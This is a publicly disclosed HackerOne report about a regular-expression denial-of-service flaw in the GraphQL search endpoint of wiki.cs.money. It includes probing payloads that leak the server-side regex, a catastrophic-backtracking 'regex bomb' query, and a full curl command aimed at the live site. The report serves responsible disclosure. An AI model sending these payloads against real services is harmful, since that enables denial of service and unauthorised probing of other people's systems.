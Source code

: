 # ReDoS at wiki.cs.money graphQL endpoint (AND probably a kind of command injection)

## Report Details
- **Report ID**: 1000567
- **URL**: https://hackerone.com/reports/1000567
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-10-07T02:26:35.361Z
- **Disclosed**: 2020-10-27T19:30:34.805Z

## Reporter
- **Username**: mvm
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: cs_money

## Vulnerability Information
## Summary:
The endpoint /graphql has a vulnerable query operation named "search", that  can I send a Regex malformed parameter, in order to trick the original regular expression to a regex bomb expression. 

+ Payload with a "common" search, querying the value "AAA":

```
query a { 
  search(q: "AAA", lang: "en") {
    _id
   weapon_id
    rarity
    collection{ _id name }
    collection_id 
 
 }
}
```

Response:

```
{
  "data": {
    "search": [
      {
        "_id": "sticker-baaa-ckstabber",
        "weapon_id": null,
        "rarity": "High Grade",
        "collection": null,
        "collection_id": null
      },
      {
        "_id": "sticker-ork-waaagh",
        "weapon_id": null,
        "rarity": "High Grade",
        "collection": null,
        "collection_id": null
      }
    ]
  },
  "extensions": {
    "tracing": {
      "version": 1,
      "startTime": "2020-10-07T02:07:55.251Z",
      "endTime": "2020-10-07T02:07:55.516Z",
      "duration": 264270190,
      "execution": {
        "resolvers": [
          {
            "path": [
              "search"
            ],...[Resumed for convenience]
        ]
      }
    }
  }
}
```

Pay attention in this part of JSON response: 

```
      "startTime": "2020-10-07T02:07:55.251Z",
      "endTime": "2020-10-07T02:07:55.516Z",
``` 

**It's about a instantaneously response time.**

Ok, now we're ready to play with this...

You can reveal the bug inserting "\u0000" on "q" parameter, in order to display an error with part of the graph query.

+ Payload A (see the error response):

 ```
query a { 
  search(q: "\u0000)", lang: "en") {
    _id
   weapon_id
    rarity
    collection{ _id name }
    collection_id  
 }
}
 ```

Response:

```
{
  "errors": [
    {
      "message": "value (?=.*\u0000) must not contain null bytes",
      "locations": [
        {
          "line": 2,
          "column": 3
        }
      ],
      "path": [
        "search"
      ],
      "extensions": {
        "code": "INTERNAL_SERVER_ERROR"
      }
    }
  ],
....[Resumed]
 ```

+ Payload B (reveal that this parameter filter a value with a regex)

```
query a { 
  search(q: "\u0000)", lang: "en") {
    _id
   weapon_id
    rarity
    collection{ _id name }
    collection_id  
 }
}

```

 Response:

 ```
{
  "errors": [
    {
      "message": "Invalid regular expression: /(?=.*X))/: Unmatched ')'",
      "locations": [
        {
          "line": 2,
          "column": 3
        }
...[Resumed]

```


## GraphQL Payload With Regex BOMB

```
query a { 
  search(q: "[a-zA-Z0-9]+\\s?)+$|^([a-zA-Z0-9.'\\w\\W]+\\s?)+$\\", lang: "en") {
    _id
   weapon_id
    rarity
    collection{ _id name }
    collection_id 
 }
}
```


## Steps To Reproduce:
  1. Send a POST with the bomb payload: 

       ````
   curl 'https://wiki.cs.money/graphql' \  
  -H 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36' \
  -H 'content-type: application/json' \
  -H 'accept: */*' \     
  --data-binary $'{"query":"query a { \\n  search(q: \\"[a-zA-Z0-9]+\\\\\\\\s?)+$|^([a-zA-Z0-9.\'\\\\\\\\w\\\\\\\\W]+\\\\\\\\s?)+$\\\\\\\\\\", lang: \\"en\\") {\\n    _id\\n   weapon_id\\n    rarity\\n    collection{ _id name }\\n    collection_id \\n \\n }\\n}","variables":null}' \
  --compressed
       ```
  1. Compare response times with a simple query "AAA"  (explained above)
 

## Supporting Material/References:
https://www.rexegg.com/regex-explosive-quantifiers.html

## Impact

Denial of Service

## Attachments
- recording-bug.webm
